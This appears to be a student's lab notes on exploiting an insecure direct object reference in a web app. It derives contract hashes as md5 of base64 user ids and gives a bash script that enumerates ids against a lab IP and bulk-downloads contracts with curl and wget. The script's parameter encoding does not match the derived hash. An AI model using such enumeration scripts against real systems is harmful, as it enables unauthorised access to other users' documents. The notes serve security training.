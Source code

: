 
### **Scenario Overview**

- Employee Manager app uses _hashed references_ (e.g., MD5 hashes) instead of plaintext identifiers
- Clicking contract download triggers POST request:
    - `POST /download.php`
    - `contract=cdd96d3cc73d1dbdaffa03cc6cd7339b`
- Indicates use of _Secure Direct Object References (SDOR)_

---

### **Reverse Engineering the Hash**

- Investigate JavaScript function:  
    `downloadContract(uid)` → hashes `btoa(uid)` using `CryptoJS.MD5()`
- `btoa(uid)` = Base64 encoding of `uid`
- Confirmed:  
    `md5(base64(uid))` == `contract` parameter
#### **Example**
```bash
echo -n 1 | base64 -w 0 | md5sum
# Output: cdd96d3cc73d1dbdaffa03cc6cd7339b -
```
- Verified that `uid=1` corresponds to hash in POST request

---

### **Mass Enumeration Script**

#### **Bash Script to Download Contracts**
```bash
#!/bin/bash

url="http://94.237.53.146:54279/"

for i in {1..20}; do
		b64=$(echo -n "$i" | base64)

		encoded=$(python3 -c "import urllib.parse; print(urllib.parse.quote('''$b64'''))")
		
		for link in $(curl -s "$url/download.php?contract=$encoded"); do
				echo $encoded
				echo $url/$link
				wget -q $url/$link
		done
done
```